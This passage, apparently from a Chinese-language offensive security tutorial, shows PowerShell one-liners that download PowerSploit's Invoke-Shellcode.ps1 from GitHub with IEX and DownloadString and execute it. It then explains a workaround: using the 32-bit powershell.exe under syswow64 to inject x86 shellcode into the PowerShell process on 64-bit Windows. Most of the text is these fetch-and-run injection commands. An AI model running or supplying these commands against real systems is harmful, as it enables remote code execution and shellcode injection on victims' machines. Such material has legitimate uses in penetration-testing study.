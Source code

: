 ```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode –help 
```

![enter image description here](img/img9_u28_png.jpg)

但是在这里有个问题，就是 x64 下 shellcode 已有的很少，往往通过网上搜集的 shellcode 都是 x86 的。如果直接执行 x86 的 shellcode 则会出错。

不过 Invoke-Shellcode.ps1 脚本默认是将 shellcode 注入在 powershell.exe 进程中，那么便可以用 64 位系统环境下 32 位的 powershell.exe 执行 x86 的 shellcode，过程如下：

```
c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Shellcode 0x90,0x90,0x90 ... 
```
